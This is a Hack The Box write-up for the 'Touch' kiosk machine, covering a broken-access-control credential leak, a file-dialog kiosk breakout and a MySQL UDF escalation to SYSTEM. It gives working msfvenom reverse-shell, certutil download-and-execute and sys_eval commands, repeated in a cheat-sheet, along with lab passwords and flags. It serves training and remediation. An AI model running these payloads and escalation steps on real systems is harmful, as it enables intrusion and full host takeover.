

#  HTB — Touch

> [!info] Machine Summary
> **Touch** is a Windows box themed around an airport **self check-in kiosk** ("HTB Airways") built on top of a **Nexion DeviceHub** device-management portal. The box chains a **broken access control** bug in the management web app, a **kiosk / browser breakout**, credential reuse in backend source code, and a classic **MySQL UDF privilege escalation** to go from unauthenticated → `SYSTEM`.

> [!success] Flags
> - **user.txt** → `1eba1ca1fa039e930458f2fb9d2bfa8a`
> - **root.txt** → `ea1bf78cfbe86a86e30e3b19bb6168bc`

---

## 🗺️ Attack Chain Overview



---

## 1. Reconnaissance

### 1.1 Nmap

A standard SYN scan followed by a version/script scan was run against the target.

```bash
nmap -sS 10.129.139.79
nmap -sCV 10.129.139.79
```

![[attachments/Pasted image.png]]

**Open ports:**

| Port | Service      | Version                                   |
| ---- | ------------ | ------------------------------------------ |
| 135  | msrpc        | Microsoft Windows RPC                      |
| 3389 | ms-wbt-server| Microsoft Terminal Service (RDP)           |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0 (WinRM/SSDP)    |
| 8443 | http         | Microsoft HTTPAPI httpd 2.0 — **"Nexion DeviceHub – Login"** |

> [!tip] Key takeaway
> Port **8443** is the interesting one — it's a custom **Nexion DeviceHub** management portal, which turns out to be the IoT device-management backend for the kiosk's passport scanner and boarding-pass printer.

### 1.2 Directory fuzzing on :8443

```bash
ffuf -u https://10.129.139.79:8443/FUZZ \
     -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -fs 0
```

![[attachments/Pasted image (2).png]]

This surfaced `login` (200) and `api` (403), and further fuzzing / manual guessing turned up `api/status/` and a `dashboard` route as well.

---

## 2. Web Enumeration — Nexion DeviceHub (`:8443`)

### 2.1 `/api` — authentication required

```
GET /api
```

![[attachments/Pasted image (3).png]]

As expected, hitting the raw API root returns `{"error":"Authentication required"}`.

### 2.2 `/api/status/` — unauthenticated information disclosure

```
GET /api/status/
```

![[attachments/Pasted image (4).png]]

Unlike `/api`, the `/api/status/` sub-route has **no auth check**, and leaks device metadata:

```json
{"device":"Nexion DeviceHub DH-100","serial":"NX-DH-2024-B7042","firmware":"1.4.2","status":"online","uptime":41843}
```

### 2.3 `/dashboard` — broken access control

![[attachments/Pasted image (5).png]]

> [!bug] Vulnerability — Broken Access Control
> The `/dashboard` management page is reachable **directly, with no server-side session/auth check**. The app relies on client-side routing to "protect" the page, so simply browsing to `/dashboard` drops you straight into the authenticated admin UI for the **Passport Scanner (Nexion DocReader SR-4200)** and **Boarding Pass Printer (Nexion TP-820)** — including stored device credentials (masked behind a "show/hide" toggle).

Clicking **show** on both credential fields reveals plaintext device creds:

![[attachments/Pasted image (6).png]]

```
Username: KioskUser
Password: K!0sk2026#
```

These are the **local Windows account** credentials used by the kiosk application to run as — and they are valid for RDP.

---

## 3. Foothold & `user.txt`

### 3.1 RDP as KioskUser

With port 3389 open and valid creds in hand, the quickest path to a shell is straight RDP:

```bash
xfreerdp /v:10.129.139.79 /u:KioskUser /p:'K!0sk2026#'
```

![[attachments/Pasted image (7).png]]

```powershell
C:\Users\KioskUser\Desktop> type user.txt
1eba1ca1fa039e930458f2fb9d2bfa8a
```

> [!success] user.txt captured
> `1eba1ca1fa039e930458f2fb9d2bfa8a`

---

## 4. Alternate Path — Kiosk Breakout (Browser → Shell)

The box's real "theming" is the physical self-check-in kiosk, running a fullscreen Electron/Edge-based app. It's worth documenting this path too, since it's the intended **kiosk escape** technique, and it's what actually delivers the Meterpreter shell used for privesc later.

### 4.1 Triggering an app error

Interacting with the **Document Verification** step of the kiosk (passport scanner simulation) throws a hardware error:

![[attachments/Pasted image (7.1).png]]

```
Nexion DocReader SR-4200 - Error
Nexion DocReader SR-4200 has stopped responding.
Error Code: SCN-ERR-4092
Device: NX-SR-2024-0042
https://support.nexionsystems.com/docreader/troubleshoot
```

> [!tip] Why this matters
> The kiosk app embeds a link to an external support page. Kiosk lockdown software usually restricts the *shell*, not every link a vendor-supplied error dialog might open — clicking it drops you into a semi-restricted, embedded Edge browser window.

### 4.2 Reaching a real browser context

The linked support page intentionally (for the lab) renders as "offline" (`DNS_PROBE_FINISHED_NO_INTERNET`) with a **Troubleshoot** button:

![[attachments/Pasted image (8).png]]

Clicking through Windows' network-troubleshooter UI eventually surfaces a native **File ▸ Open/Save** common dialog — this is the classic **kiosk breakout via a file picker**. Any Win32 "Open file" or "Save as" dialog is a fully functional Explorer window in disguise, and it accepts arbitrary paths.

### 4.3 Spawning `cmd.exe` from the file-picker

Typing a binary path directly into the **File name** field executes it:

![[attachments/Pasted image (9).png]]

```
C:\Windows\System32\cmd.exe
```

Alternatively, the same support page conveniently links a **downloadable** `cmd.exe`:

![[attachments/Pasted image (10).png]]

Opening it from the Downloads flyout (**Open file**) runs it directly:

![[attachments/Pasted image (11).png]]

![[attachments/Pasted image (18).png]]

> [!bug] Vulnerability — Kiosk / Browser Breakout
> A file-picker dialog inside a "locked down" kiosk browser is a full Windows Explorer surface. Typing (or browsing to) `cmd.exe` spawns an unrestricted command prompt running as the kiosk's service account (`KioskUser`), completely breaking the kiosk sandbox.

This confirms the same low-priv context as the RDP session:

```powershell
C:\Users\KioskUser\Desktop> whoami
kiosk-042\kioskuser
```

For reference, here's what the actual kiosk flow looks like end-to-end (self check-in → language select → document verification → booking lookup):

![[attachments/Pasted image (12).png]]
![[attachments/Pasted image (13).png]]
![[attachments/Pasted image (14).png]]
![[attachments/Pasted image (15).png]]

---

## 5. Getting a Stable Meterpreter Shell

From the breakout `cmd.exe`, a Meterpreter payload was staged and pulled down using a classic **LOLBin download** (`certutil`).

### 5.1 Generate payload & host it

```bash
mkdir /tmp/share && cd /tmp/share
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.83 LPORT=4445 \
         -f exe -o /tmp/share/shell.exe
python3 -m http.server 8000
```

![[attachments/Pasted image (16).png]]

### 5.2 Start the listener

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.83; set LPORT 4445; exploit"
```

![[attachments/Pasted image (17).png]]

### 5.3 Download & execute from the kiosk shell

```cmd
certutil -urlcache -split -f http://10.10.14.83:8000/shell.exe shell.exe
shell.exe
```

![[attachments/Pasted image (19).png]]

Catch:

```
[*] Meterpreter session 1 opened (10.10.14.83:4445 -> 10.129.141.160:55550)
meterpreter > shell
C:\Users\KioskUser\Desktop> whoami
kiosk-042\kioskuser
```

---

## 6. Privilege Escalation Enumeration

### 6.1 Leaking DB credentials from the backend source

The kiosk's Node/TypeScript backend is installed locally — reading its source reveals how it loads MySQL credentials:

```cmd
type "C:\Program Files\HTB Airways\Kiosk\packages\backend\src\database\index.ts"
```

![[attachments/Pasted image (20).png]]
![[attachments/Pasted image (21).png]]

```ts
const DB_CONFIG_PATH = process.env.DB_CONFIG_PATH || "C:\\ProgramData\\HTB Airways\\db-config.ini";

function loadConfig() {
  const defaults = {
    host: "127.0.0.1", port: 3306,
    user: "kiosk_app", password: "K!0sk_R3pl1ca#DB",
    database: "htb_airways"
  };
  ...
}
```

> [!bug] Vulnerability — Hardcoded Credentials
> The application ships a **hardcoded fallback DB password** (`kiosk_app` / `K!0sk_R3pl1ca#DB`) directly in the compiled/source TypeScript, used whenever the external `db-config.ini` can't be read. Since `KioskUser` *can* read the application source but *can't* read `db-config.ini` itself, the fallback leaks the real working credentials anyway.

### 6.2 Using the leaked creds against local MySQL

```cmd
mysql -u kiosk_app -p"K!0sk_R3pl1ca#DB" -h 127.0.0.1 -P 3306 htb_airways ^
  -e "SELECT employee_id, email, auth_code, role, active FROM _htb_staff;"
```

![[attachments/Pasted image (22).png]]

This dumps the full **staff directory** (employee IDs, emails, per-employee `auth_code`, roles) — used by the kiosk's "**STAFF LOGIN**" function, though it isn't required for the root path below.

### 6.3 Group membership & filesystem recon

```cmd
whoami /priv
whoami /groups
dir "C:\ProgramData\HTB Airways" /s /b
```

![[attachments/Pasted image (23).png]]

Notable group membership:

```
KIOSK-042\Printer Administrators
```

And four files of interest under `C:\ProgramData\HTB Airways`:

```
C:\ProgramData\HTB Airways\db-config.ini
C:\ProgramData\HTB Airways\db-sync-replica.ps1
C:\ProgramData\HTB Airways\refresh-dates.bat
C:\ProgramData\HTB Airways\refresh-dates.sql
```

Attempting to read `db-config.ini` directly fails:

```
C:\Users\KioskUser\Desktop> type "C:\ProgramData\HTB Airways\db-config.ini"
Access is denied.
```

### 6.4 Chasing down readable scripts

A search through the MySQL install directory for stray credentials comes up empty, and `db-sync-replica.ps1` is also `Access is denied`:

![[attachments/Pasted image (24).png]]

```cmd
findstr /si password "C:\Program Files\MySQL\*.ini" "C:\Program Files\MySQL\*.cnf"
type C:\MySQL\my.ini
type "C:\ProgramData\HTB Airways\db-sync-replica.ps1"   REM Access is denied.
```

However `refresh-dates.bat` **is** readable, and it contains the **MySQL `root` password** in plaintext (used to run the scheduled date-refresh job):

![[attachments/Pasted image (25).png]]

```bat
@echo off
C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 < "C:\ProgramData\HTB Airways\refresh-dates.sql" 2>nul
```

> [!bug] Vulnerability — Credentials in a World-Readable Scheduled Task Script
> `refresh-dates.bat` (invoked by a scheduled task to keep the demo flight/booking dates "fresh") embeds the **MySQL root password** in cleartext, and its file ACLs allow `KioskUser` to read it even though the sibling `.ini`/`.ps1` files are locked down.

The companion `refresh-dates.sql` just contains harmless `UPDATE` statements that roll flight/booking timestamps forward so the demo data never looks stale:

![[attachments/Pasted image (26).png]]

---

## 7. Root — MySQL UDF Privilege Escalation

### 7.1 Confirming root DB privileges & a writable plugin directory

```cmd
mysql -u root -p"HTB@irw4ys_DB!2026" -e "SELECT user, host, Grant_priv, File_priv FROM mysql.user;"
icacls "C:\MySQL\lib\plugin"
```

![[attachments/Pasted image (27).png]]

```
root   localhost   Y   Y     <-- Grant_priv & File_priv = Y

C:\MySQL\lib\plugin BUILTIN\Administrators:(F)
                     NT AUTHORITY\SYSTEM:(F)
                     BUILTIN\Users:(RX)
                     NT AUTHORITY\Authenticated Users:(M)   <-- writable!
```

> [!danger] Vulnerability — MySQL User-Defined Function (UDF) Privilege Escalation
> The local `root` MySQL account has `FILE_PRIV`, and — critically — the **plugin directory** (`C:\MySQL\lib\plugin`, where MySQL loads UDF `.dll`/`.so` libraries from) is **writable by `NT AUTHORITY\Authenticated Users`**. Any authenticated user who can reach `root` on the DB (as we now can, via the leaked password) can drop a malicious UDF library there and register a function that shells out — and since the MySQL service itself runs as `NT AUTHORITY\SYSTEM`, that function executes with **SYSTEM** privileges.

### 7.2 Uploading the UDF library and registering `sys_eval`

Using the existing Meterpreter session to push Metasploit's prebuilt UDF DLL:

```
meterpreter > upload /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll "C:\\MySQL\\lib\\plugin\\lib_mysqludf_sys_64.dll"
meterpreter > shell
```

```cmd
C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';"
C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('whoami');"
```

![[attachments/Pasted image (29).png]]

```
sys_eval('whoami')
nt authority\system
```

### 7.3 Reading `root.txt` as SYSTEM

```cmd
C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt');"
```

![[attachments/Pasted image (30).png]]

```
ea1bf78cfbe86a86e30e3b19bb6168bc
```

> [!success] root.txt captured
> `ea1bf78cfbe86a86e30e3b19bb6168bc`

![[attachments/Pasted image (28).png]]

---

## 8. Root Cause Summary

| # | Weakness | Where | Impact |
|---|----------|-------|--------|
| 1 | Broken access control on `/dashboard` | Nexion DeviceHub web app (:8443) | Unauthenticated disclosure of `KioskUser` credentials |
| 2 | Kiosk/browser breakout via a native file-picker dialog | Kiosk app error → support page → file dialog | Arbitrary process execution (`cmd.exe`) from a "locked down" kiosk |
| 3 | Hardcoded DB credentials in application source | `backend/src/database/index.ts` | Credential disclosure to anyone who can read the install directory |
| 4 | Secrets in a readable scheduled-task script | `C:\ProgramData\HTB Airways\refresh-dates.bat` | Disclosure of the MySQL **root** password |
| 5 | World-writable MySQL plugin directory | `C:\MySQL\lib\plugin` | Local privilege escalation to `NT AUTHORITY\SYSTEM` via UDF |

## 9. Remediation Notes

- Enforce **server-side** authentication/authorization on every management route (`/dashboard`, `/api/*`), not just client-side route guards.
- Lock down kiosk mode properly: disable/intercept common file-dialog breakout vectors (`kiosk mode` browser flags, AppLocker/WDAC blocking `cmd.exe`, `certutil.exe`, etc. for the kiosk user), and sandbox the kiosk application with a restricted desktop.
- Never hardcode credentials as source-level fallbacks; fail closed when a config file can't be read, and use a secrets manager / DPAPI / gMSA instead.
- Restrict file permissions on operational scripts (`refresh-dates.bat`, etc.) to the accounts that actually need them — avoid storing plaintext DB passwords in scheduled-task scripts at all.
- Fix `C:\MySQL\lib\plugin` ACLs so only `Administrators`/`SYSTEM` can write to it (this is the default; it was explicitly weakened here), and avoid running the MySQL service as `SYSTEM` when a dedicated low-privilege service account would do.

---

## 10. Commands Cheat-Sheet

```bash
# Recon
nmap -sS -p- 10.129.139.79
nmap -sCV -p135,3389,5985,8443 10.129.139.79
ffuf -u https://10.129.139.79:8443/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -fs 0

# Foothold
xfreerdp /v:<TARGET> /u:KioskUser /p:'K!0sk2026#'

# Kiosk breakout -> payload delivery
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=4445 -f exe -o shell.exe
python3 -m http.server 8000
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <LHOST>; set LPORT 4445; exploit"
# on target:
certutil -urlcache -split -f http://<LHOST>:8000/shell.exe shell.exe && shell.exe

# Privesc recon
type "C:\Program Files\HTB Airways\Kiosk\packages\backend\src\database\index.ts"
mysql -u kiosk_app -p"K!0sk_R3pl1ca#DB" -h 127.0.0.1 -e "SELECT * FROM _htb_staff;"
dir "C:\ProgramData\HTB Airways" /s /b
type "C:\ProgramData\HTB Airways\refresh-dates.bat"
icacls "C:\MySQL\lib\plugin"

# MySQL UDF privesc
upload lib_mysqludf_sys_64.dll "C:\MySQL\lib\plugin\lib_mysqludf_sys_64.dll"
mysql -u root -p"HTB@irw4ys_DB!2026" -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';"
mysql -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('whoami');"
mysql -u root -p"HTB@irw4ys_DB!2026" -e "SELECT sys_eval('type C:\Users\Administrator\Desktop\root.txt');"
```

---

## 11. Credential Vault (found during the box)

| Credential | Value | Source |
|---|---|---|
| `KioskUser` (Windows) | `K!0sk2026#` | `/dashboard` broken access control |
| `kiosk_app` (MySQL) | `K!0sk_R3pl1ca#DB` | Hardcoded fallback in `index.ts` |
| `root` (MySQL) | `HTB@irw4ys_DB!2026` | `refresh-dates.bat` |

> [!warning] Note on IP addresses
> Screenshots in this note were captured across a few different play sessions, so the target IP changes between some images (`10.129.139.79`, `10.129.140.223`, `10.129.141.160`). Substitute your own target IP when replaying these commands.

> [!note] Source
> Some context for this write-up was cross-checked against a community write-up for this box: https://jhasagar.com.np/touch-htb-writeup.html#privesc (that page blocks automated fetching, so it wasn't pulled in directly — if anything above doesn't match your own run, that page is worth a manual read for a second perspective).
